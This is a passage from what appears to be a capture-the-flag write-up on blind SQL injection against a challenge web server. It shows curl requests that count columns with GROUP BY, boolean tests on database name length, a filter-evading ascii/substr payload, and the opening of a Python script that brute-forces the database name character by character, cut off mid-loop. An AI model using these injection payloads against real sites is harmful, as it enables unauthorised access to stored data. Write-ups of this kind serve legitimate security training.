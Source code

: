 As ``order by`` blocked i can go ahead with ``group by`` or ``having`` to
identify the number of columns that are selected in the query.

```css  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 1" 2>/dev/null | tail -1   
Hello guest  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 3" 2>/dev/null | tail -1   
Hello guest  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 4" 2>/dev/null | tail -1 

root@MrR3boot:~#  
```

As you see we got 3 columns that are selected in the query. I tried long
enough time to bypass the union select regex but i couldn't (but i did in the
end) so i went identifying altenative ways like using ``exists``

```css  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 exists(select database())" 2>/dev/null | tail -1   
Hello guest  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())<12" 2>/dev/null | tail -1   
Hello guest  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())<10" 2>/dev/null | tail -1   
Hello  
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())=10" 2>/dev/null | tail -1   
Hello guest  
```  
So quickly i was able to find the length of database which is ``10``. Then i
started making a script to bruteforce char by char using ``substr`` function
in mysql.

Another hurdle here is MySQL is case insensitive language and like operator
also didn't check the casing. So if we don't identify table/database name
properly including lower/upper case we can't pitch further into the challenge.
One way we could check that is using ``BINARY`` but as its having ``IN`` we
can't use it. other way is to use ``COLLATION`` again those have ``IN`` ex:
latin we can't use them as well. I ended up eating lot of time searching for
ways and useful functions in MySQL. Finally i could use ascii on both sides to
convert them to decimal and then check properly.

Payload is as  
``2 && ascii(substr(database(),{},10))=ascii("{}")``

```python  
import requests  
from string import printable

url='http://45.77.240.178:8002/index.php'

def dump_database():  
	j=1  
	result=''  
	while j<=10:  
		#length of database can be found using : 2 && length(database())<11  
		for i in printable:  
				if i!='%':  
					r = requests.post(url,headers={'Content-Type':'application/x-www-form-urlencoded'},data={'id':'2 && ascii(substr(database(),{},10))=ascii("{}")'.format(j,i)},proxies={'http':'http://127.0.0.1:8080'})  
					if 'guest' in r.text:  
```